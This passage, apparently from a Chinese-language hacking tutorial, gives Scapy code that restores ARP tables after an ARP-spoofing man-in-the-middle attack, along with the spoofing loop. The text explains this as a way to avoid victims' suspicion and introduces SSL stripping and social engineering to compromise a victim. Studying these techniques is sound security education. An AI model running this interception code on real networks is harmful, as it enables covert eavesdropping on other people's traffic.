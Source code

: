 # 恢复路由器表

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.2"

arp_response.hwdst = "00:50:56:ff:74:8b"

arp_response.hwsrc = "00:0C:29:BE:47:14"

arp_response.psrc = "192.168.74.129"

send(arp_response)

# 恢复 Windows 表

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.129"

arp_response.hwdst = "00:0C:29:BE:47:14"

arp_response.hwsrc = "00:50:56:ff:74:8b"

arp_response.psrc = "192.168.74.2"

send(arp_response)

请注意，这些值适用于我的平台；它们会根据你的平台有所不同，因此你应该相应地更改这些值。为了恢复 ARP 表，从我们的 Linux 机器向路由器发送这些值，同时伪装成设备 A。这一次，输入正确的值，而不是虚假的信息。对于 Windows 机器，也做同样的操作。最后，当发生键盘中断时，调用此函数，如下所示：

try:

while True:

spoof_victim()

spoof_router()

time.sleep(2)

except KeyboardInterrupt as err:

print("正在恢复 ARP 表")

restore()

print("退出")

在本节中，我们学习了如何毒化 ARP 表，监控网络流量，并恢复受害机器中的 ARP 表，以确保它们不会怀疑我们的活动。接下来，我们将学习如何解密这些网络流量。

# 解密网络流量

正如我们在前一节所看到的，我们可以通过中间人攻击来拦截流量。然而，这种攻击通常独立使用时效果有限，因为现在几乎所有的浏览器流量都是加密的，因此即使你能够拦截流量，也无法做太多事情。你可以通过使用 SSL 去除攻击来绕过这个过程。在没有加密的情况下拦截流量，有时在你想监控用户活动时也很有用。这可以帮助你了解用户访问哪些网站最频繁。将这些信息与社会工程攻击结合使用，可以帮助你攻破受害者的机器。
